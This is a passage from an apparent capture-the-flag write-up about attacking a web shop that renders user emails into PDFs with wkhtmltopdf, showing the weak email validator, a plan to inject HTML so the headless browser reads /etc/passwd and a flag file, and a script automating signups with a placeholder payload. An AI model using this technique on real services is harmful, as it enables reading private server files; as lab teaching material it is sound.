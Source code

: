 I looked into `wkhtmltopdf` and this is their description:

> `wkhtmltopdf` and `wkhtmltoimage` are open source (LGPLv3) command line tools to render HTML into PDF and various image formats using the Qt WebKit rendering engine. These run entirely "headless" and do not require a display or display service.

It seems like we might be able to run javascript in the html when it gets rendered as a pdf. To do this we need some kind of XSS.

The PDF file includes the email we entered on signup. Let's look into how the email is sanitized:

```py
def valid_email(email):
    if not '@' in email:
        return False
    pattern = r'[A-Za-z0-9.-]+\.[A-Z|a-z]{2,7}\b'
    return bool(re.match(pattern, email.split('@')[1]))
```

Nothing before the `@` is validated. So we can just put whatever HTML we want into the email.

The goal seems to be to use XSS to read local files as the `wkhtmltopdf`'s headless browser runs in the `file:///` origin. Therefore we can make requests to other `file:///` URLs without being stopped by CORS.

We want to read the `/etc/passwd` file to dump all usernames, and then find the user that has the `flag.txt` in their home directory.

## Easier iteration

Right now the process is a bit complicated, as we need to register a new user for each iteration we test. Let's automate this:

```py
import requests
import random
from pwn import *

USERNAME_ALPHA = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

BASE_URL = "http://ddcwebshop.hkn"
SECRET = "2dfd84a7a55f913401ca3e9581857af1"

payload = "We can put the payloads here"

username = "".join(random.choice(USERNAME_ALPHA) for _ in range(20))

s = requests.Session()

r = s.post(
    BASE_URL + "/signup",
    data={
        "username": username,
        "email": f"{payload}@test.net",
        "password": "abcdefghijklmno",
        "secret": SECRET
    }
)

try:
    r.raise_for_status()
except:
    log.warn("Failed to register user.")
    print(r.text)
    exit()

log.info(f"Username: {username}")

```